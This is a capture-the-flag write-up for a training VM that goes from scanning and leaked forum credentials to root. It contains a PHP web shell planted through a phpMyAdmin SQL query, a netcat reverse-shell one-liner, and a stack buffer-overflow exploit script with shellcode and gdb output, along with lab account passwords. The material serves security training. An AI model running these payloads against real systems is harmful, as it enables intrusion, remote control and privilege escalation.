






# Writeup1
**First way to become root**

- [Writeup1](#writeup1)
	- [1. Virtual Machine Adress](#1-virtual-machine-adress)
		- [1.1 Scan IP](#11-scan-ip)
		- [1.2 Network Scan](#12-network-scan)
		- [1.3 Website](#13-website)
	- [2. Exploitation](#2-exploitation)
		- [2.1 Credential Leak (Forum) - https://ip/forum](#21-credential-leak-forum---httpsipforum)
		- [2.2 Webmail Access - https://ip/webmail](#22-webmail-access---httpsipwebmail)
		- [2.3 phpMyAdmin Access - https://ip/phpmyadmin](#23-phpmyadmin-access---httpsipphpmyadmin)
	- [3. Reverse Shell](#3-reverse-shell)
		- [3.1 Listener Setup (Attacker Machine)](#31-listener-setup-attacker-machine)
		- [3.2 Connection from Target](#32-connection-from-target)
		- [3.3 Shell connection](#33-shell-connection)
	- [3.4. File's exploitation](#34-files-exploitation)
	- [4. SSH connection](#4-ssh-connection)
	- [4.2 Laurie's session](#42-lauries-session)
		- [Phase\_1](#phase_1)
			- [result](#result)
		- [Phase\_2](#phase_2)
			- [result](#result-1)
		- [Phase\_3\`](#phase_3)
			- [result](#result-2)
		- [Phase\_4](#phase_4)
			- [result](#result-3)
		- [Phase\_5](#phase_5)
			- [result](#result-4)
		- [Phase\_6](#phase_6)
			- [result](#result-5)
		- [Final Result](#final-result)
	- [4.3 Thor's session](#43-thors-session)
	- [4.4 Zaz's session](#44-zazs-session)
			- [Tuto Overflow With Shellcode : 'https://www.samsclass.info/127/proj/p3-lbuf1.htm'](#tuto-overflow-with-shellcode--httpswwwsamsclassinfo127projp3-lbuf1htm)
		- [Finding the Offset](#finding-the-offset)
		- [Analysis](#analysis)
		- [Exploitation](#exploitation)
		- [Getting a Root Shell](#getting-a-root-shell)
		- [Verification](#verification)
	- [Users informations](#users-informations)
	- [REF](#ref)

## 1. Virtual Machine Adress

### 1.1 Scan IP

```bash
ip addr
# → inet 192.168.1.146/24
```

### 1.2 Network Scan

```bash
# Active machine detection on local network
nmap -sn 192.168.1.0/24 -oA scan.txt

# Full port scan on identified target
nmap -p- 192.168.1.146
```

| Port  | Service | Description                       |
|-------|---------|-----------------------------------|
| 21    | FTP     | File Transfer Protocol            |
| 22    | SSH     | Secure Shell                      |
| 80    | HTTP    | Web Server                        |
| 143   | IMAP    | Mail Access                       |
| 443   | HTTPS   | Secure Web                        |
| 993   | IMAPS   | Secure IMAP                       |


### 1.3 Website


Directory bruteforce with gobuster:
```bash
gobuster dir -u https://192.168.1.146/ -w common.txt -k -x php,bak,txt,sql
```

Interesting paths:
```bash
/forum                (Status: 301) [Size: 314] [--> https://192.168.1.64/forum/]
/phpmyadmin           (Status: 301) [Size: 319] [--> https://192.168.1.64/phpmyadmin/]
/webmail              (Status: 301) [Size: 316] [--> https://192.168.1.64/webmail/]
```
---

## 2. Exploitation

### 2.1 Credential Leak (Forum) - https://ip/forum

```bash
# Warning → to connect at forum don't use http:// is forbidden use https://
```

A forum post titled **"Problem login ?"** contains debug logs:

```text
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
```


Credentials recovered:
- **User:** `lmezard`
- **Password:** `!q\]Ej?*5K5cy*AJ`

So we use this information to log in. **lmezard** and `!q\]Ej?*5K5cy*AJ`
That works, we can find the [email](#users-informations).

### 2.2 Webmail Access - https://ip/webmail


Login credentials:
- **Email:** `laurie@borntosec.net`
- **Password:** `!q\]Ej?*5K5cy*AJ`

> **Insight:** Users often reuse passwords across multiple services.

Mail contains DB credentials:


```text
User: root
Password: Fg-'kKXBj87E:aJ$
```

### 2.3 phpMyAdmin Access - https://ip/phpmyadmin

1. Navigate to `https://192.168.1.146/phpmyadmin/`

2. Log in with recovered credentials
User data was modified via `forum_db.mlf2_userdata` in phpMyAdmin.

Password hashes could not be reversed despite having a known plaintext (lmezard).

Password changes through the web interface only affect the database, not other services.

Using Laurie’s known password, its hash was copied and assigned to the **admin** account.

This allowed authentication as **admin** on the forum and access to the administrative panel.







In this page there is some php files. We will note this **url**


3. Write a webshell via SQL query

```sql
SELECT '<HTML><BODY><FORM METHOD="GET" NAME="myform" ACTION=""><INPUT TYPE="text" NAME="cmd"><INPUT TYPE="submit" VALUE="Send"></FORM><pre><?php if($_GET[''cmd'']) { system($_GET[''cmd'']);} ?> </pre></BODY></HTML>'
 INTO OUTFILE "/var/www/forum/templates_c/cmd.php"
```
---

## 3. Reverse Shell

### 3.1 Listener Setup (Attacker Machine)

On our terminal:
```bash
nc -lvnp 1234
```

### 3.2 Connection from Target



On the internet https://<ip>/forum/templates_c/cmd.php :
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc VIrtualMachine_IP 1234 >/tmp/f
```

### 3.3 Shell connection

On our terminal appears: 
```bash
Listenning on 0.0.0.0 1234
Connecting reveived on 192.168.1.64 54543
/bin/sh: 0 can't access tty; job control turned off
$ whoami
>>> www-data
$ find / -user www-data 2>/dev/null
```

Impossible use su command:
```sh
cat /home/LOOKATME/password
>> lmezard:G!@M6f4Eatau{sF"
su lmezard
>> su: must be run from a terminal
```
with a research on [internet](https://unix.stackexchange.com/questions/594264/error-su-must-be-run-from-a-terminal?__cf_chl_tk=.M.TvcaACsdi9g3YQYNf2kmx6stuQibrlhF7rA6zHQ0-1782222640-1.0.1.1-DY6ddXZzuy2MR7gNUHQnMudBNiy6mAtwy_Sat_SO_EE) we found : ``python -c 'import pty; pty.spawn("/bin/sh")'``


```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
su lmezard
Password: 'G!@M6f4Eatau{sF"'
lmezard@BornToSecHackMe:/var/www/forum/templates_c$
lmezard@BornToSecHackMe:/var/www/forum/templates_c$ cd 
lmezard@BornToSecHackMe:~$ ls
>>fun  README
lmezard@BornToSecHackMe:~$ cat README
>>Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

We can copy file fun.tar on templates_c repository :

```bash
lmezard@BornToSecHackMe:~$ chmod 777 fun
lmezard@BornToSecHackMe:~$ cp fun /var/www/forum/templates_c/
```

---

##  3.4. File's exploitation
1. Navigate to `https://192.168.1.146/forum/templates_c/` and upload fun file 
2. Extract files fun file

There is a lot of files, in shuffle order.
We cat them: 
```sh
cat * | grep return
//file483    return 'a';
//file697    return 'I';
    return 'w';
    return 'n';
    return 'a';
    return 'g';
    return 'e';
//file161    return 'e';
//file252    return 't';
//file163    return 'p';
//file640    return 'r';
//file3    return 'h';
```
We notice it's c program at **file1** ``#include <stdio.h>`` and the main fonction : 
```c
int main() {
	printf("M");
	printf("Y");
	printf(" ");
	printf("P");
	printf("A");
	printf("S");
	printf("S");
	printf("W");
	printf("O");
	printf("R");
	printf("D");
	printf(" ");
	printf("I");
	printf("S");
	printf(":");
	printf(" ");
	printf("%c",getme1());
	printf("%c",getme2());
	printf("%c",getme3());
	printf("%c",getme4());
	printf("%c",getme5());
	printf("%c",getme6());
	printf("%c",getme7());
	printf("%c",getme8());
	printf("%c",getme9());
	printf("%c",getme10());
	printf("%c",getme11());
	printf("%c",getme12());
	printf("\n");
	printf("Now SHA-256 it and submit");
}
```
If we seach ``getme1()`` there is `{` but not the `}` we can read //file5 so go to //file6 and we find 	``return 'I';``

we did that for every getme until getme8(), that gave us :

	Iheartpwnage
SHA-256
	`330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
`

## 4. SSH connection

## 4.2 Laurie's session 

Now we can try to connect via SSH using **laurie** and the generated password:

```bash
ssh laurie@192.168.1.146
Password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
laurie@BornToSecHackMe:~$ ls
README  bomb
```

The “Bomb” program consists of 6 phases that must be defused by solving the puzzles. To do this, we will use Ghidra to reverse it.

The main function call [phase function](./scripts/bomb/reverse_bomb.txt).

### Phase_1

The phase_1 is easy, it's just a simple strings_not_equal. The except result is write clearly : "Public speaking is very easy."
#### result
``Public speaking is very easy.``

### Phase_2

there is 2 functions for this phase.
read_six_numbers is to verify there is 6 numbers in the input and copy it in this var : int code [7];

To solve this sequence of 6 number. It's really short so could resolve by mind:
code[i + 1] = (i + 1) * code[i]

#### result

``1 2 6 24 120 720``

### Phase_3`

It's switch case, we understood local_10 will be the case. local_9 is a char and it's cVar2. And local_8 should be  equal to hexa if (local_8 != Hexa).
we remember the hint: the char == b.

So there is 3 possibility 


#### result


res_1 : case 1 = ``1 b 214``
res_2 : case 2 = ``2 b 755``
res_3 : case 3 = ``7 b 524``

### Phase_4
It's recursive function so rewrite in c to have the result cf [phase_4.c](./scripts/bomb/phase4.c)
#### result
``9``
### Phase_5

We search what correspond array on ghidra : *isrveawhobpnutfg* and
We create a [program](./scripts/bomb/phase5.c) to resolve it. 

#### result
opekma
### Phase_6

We write the phase6 from ghidra in a clear way. We find the chqin list and we resolve this puzzle.
cf [phase6.c](./scripts/bomb/phase5.c)


#### result

4 2 6 3 1 5

### Final Result

We remember the README, we remove the space and we found 3 solutions:
``Publicspeakingisveryeasy.126241207201b2149opekma426315``
``Publicspeakingisveryeasy.126241207202b7559opekma426315``
``Publicspeakingisveryeasy.126241207207b5249opekma426315``

none of them works because there is a problem. In the subject there is 


The result is ``Publicspeakingisveryeasy.126241207201b2149opekmq426135``

Now we can connect with **thor**


---
## 4.3 Thor's session 

In the *home* of **thor** there is a README and turtle file. 
We understood it's a logo language, and turtle is use to draw.
We found http://www.logointerpreter.com/turtle-editor.php , we replace the instruction like **Avance** by **fd**, etc...

[Script turtle](./scripts/thor/turtle)



We md5 SLASH to use for **zaz**'s session.

result :  ``646da671ca01bb5d84dbb5fb2238dc8e``

---
## 4.4 Zaz's session 

Privilege Escalation via Buffer Overflow (zaz)
#### Tuto Overflow With Shellcode : <a/>'https://www.samsclass.info/127/proj/p3-lbuf1.htm'

---

### Finding the Offset

---

Connect with ssh zaz@<ip_vm>:

```bash
zaz@BornToSecHackMe:~$ readelf -l ./exploit_me | grep GNU_STACK
>>>GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
```

So we can exploit the stack (RWE).

We craft a payload to identify where the overflow reaches the instruction pointer (EIP).

```bash
vim p.py

#!/usr/bin/python2

nopsled = '\x90' * 64 
shellcode = (
'\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2' +
'\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89' +
'\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'
)
padding = 'A' * (140 - 64 - 32)
eip = '1234'
print nopsled + shellcode + padding + eip
```

```bash
pyton2 p.py > test
chmod 777 test
```

-------------------------------

### Analysis

---
We analyze the binary using `gdb` to understand how user input is handled.

```bash
gdb ./exploit_me
```

Disassemble the `main` function:

```bash
(gdb) disas main
```

Relevant part:

```bash
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x90,%esp
   0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    $0x1,%eax
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    0xc(%ebp),%eax
   0x08048410 <+28>:	add    $0x4,%eax
   0x08048413 <+31>:	mov    (%eax),%eax
   0x08048415 <+33>:	mov    %eax,0x4(%esp)
   0x08048419 <+37>:	lea    0x10(%esp),%eax
   0x0804841d <+41>:	mov    %eax,(%esp)
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    0x10(%esp),%eax					<--------- Address of the return of strcpy (the function which overflows)
   0x08048429 <+53>:	mov    %eax,(%esp)
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    $0x0,%eax
   0x08048436 <+66>:	leave  
   0x08048437 <+67>:	ret   
```

Breakpoint before running: 

```bash
(gdb) b *0x08048425
Breakpoint 1 at 0x8048425
```

Run with gdb:
```bash
(gdb) run $(cat test)
Starting program: /home/zaz/exploit_me $(cat a)
/bin/bash: warning: setlocale: LC_ALL: cannot change locale (fr_FR.UTF-8)

Breakpoint 1, 0x08048425 in main ()
```

Inspect the stack:
```bash
(gdb) x/40x $esp
0xbffff520:	0xbffff530	0xbffff7b3	0x00000001	0xb7ec3c2d
0xbffff530:	0x90909090	0x90909090	0x90909090	0x90909090		<------------- Uninterpreted characters ('\90' * 64)
0xbffff540:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff550:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff560:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff570:	0xc389c031	0x80cd17b0	0x6852d231	0x68732f6e		<------------- Our shellcode
0xbffff580:	0x622f2f68	0x52e38969	0x8de18953	0x80cd0b42
0xbffff590:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff5a0:	0x41414141	0x41414141	0x41414141	0x41414141		<------------- The 'A' or '41'
0xbffff5b0:	0x41414141	0x41414141	0x41414141	0x34333231		<------------- The last 4 bytes correspond to the return pointer (EIP). '1234' or '34333231'  
```
---

### Exploitation

---
We now replace EIP with an address pointing to our NOP sled.

From the stack:

```bash
0xbffff530 -> start of nopsled
```
Convert to little-endian:

```python
eip = '\x50\xf5\xff\xbf'
```
Final exploit:
```bash
vim p.py

#!/usr/bin/python2

nopsled = '\x90' * 64 
shellcode = (
'\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2' +
'\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89' +
'\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'
)
padding = 'A' * (140 - 64 - 32)
eip = '\x50\xf5\xff\xbf\' 										<------------- 0xbffff550 since the Intel x86 processor in "little-endian", the least significant 
print nopsled + shellcode + padding + eip									   the address byte comes first, so we need to reverse the order of the bytes
```

Generate payload:
```bash
pyton2 p.py > test
```
Repeat the previous steps:
```bash
gdb ./exploit_me
(gdb) b *0x08048425
Breakpoint 1 at 0x8048425
(gdb) run $(cat test)
Starting program: /home/zaz/exploit_me $(cat test)
/bin/bash: warning: setlocale: LC_ALL: cannot change locale (fr_FR.UTF-8)

Breakpoint 1, 0x08048425 in main ()
(gdb) x/40x $esp
	[\90...]
	0xbffff5b0:	0x41414141	0x41414141	0x41414141	0xbffff550		<------------- Our previously modified EIP
(gdb) c
Continuing.
����������������������������������������������������������������1��ð̀1�Rhn/shh//bi��RS��B
process 2233 is executing new program: /bin/dash					<------------- /bin/bash execute but error
//bin/sh: relocation error: //bin/sh: symbol &�����-��u�@
                                                         , version GLIBC_2.0 not defined in file libc.so.6 with link time reference
[Inferior 1 (process 2233) exited with code 0177]
```
---

### Getting a Root Shell

---
Execute the binary without gdb:

```bash
./exploit_me $(cat test)
```

If successful:

```bash
# whoami
root
```
We now have a root shell.

---

### Verification
---

```bash
cd /root
cat README
```

Output:

```
CONGRATULATIONS !!!!
To be continued...
```

----

## Users informations

|   Username |	Type | UID |	Homepage	| E-mail | passwd | ssh passwd | 
|----| ---- | --- | --- |----- | ---- | ---- |
|   root |	root |	 0  | |	root@mail.borntosec.net|`Fg-'kKXBj87E:aJ$`| | 
|   admin |	Admin |	 1000  | |	admin@borntosec.net | | |
|   lmezard |	User | 1040| 	 |		laurie@borntosec.net  | `!q\]Ej?*5K5cy*AJ` </br> `G!@M6f4Eatau{sF"`| 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4 |
|   qudevide |	User | | 	 |	qudevide@borntosec.net  | | |
|   thor |	User |	 | | 	thor@borntosec.net  | | Publicspeakingisveryeasy.126241207201b2149opekmq426135 |
|   wandre |	User | | 	 | wandre@borntosec.net | | |
|   zaz |	User |	 | | zaz@borntosec.net | | 646da671ca01bb5d84dbb5fb2238dc8e |


----------------

## REF

- NNAP:
	- https://nmap.org/book/port-scanning-tutorial.html
	- https://www.varonis.com/fr/blog/nmap-commands#how-to-use
- GOBUSTER:
	- https://hackviser.com/tactics/tools/gobuster
	- https://github.com/drtychai/wordlists/blob/master/dirb/common.txt

- tuto reverse shell :
	- https://medium.com/@toon.commander/uploading-a-shell-in-phpmyadmin-61b066b481a7
	- https://www.netspi.com/blog/technical-blog/network-pentesting/linux-hacking-case-studies-part-3-phpmyadmin/
	- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

- mkfifo:
	- http://manpagesfr.free.fr/man/man3/mkfifo.3.html

- su problem:
	- https://unix.stackexchange.com/questions/594264/error-su-must-be-run-from-a-terminal
  
- Overflow tuto:
	- https://www.samsclass.info/127/proj/p3-lbuf1.htm
	- https://medium.com/@buff3r/basic-buffer-overflow-on-64-bit-architecture-3fb74bab3558
	- https://www.youtube.com/watch?v=Uk-xv8uxiJo&t=134s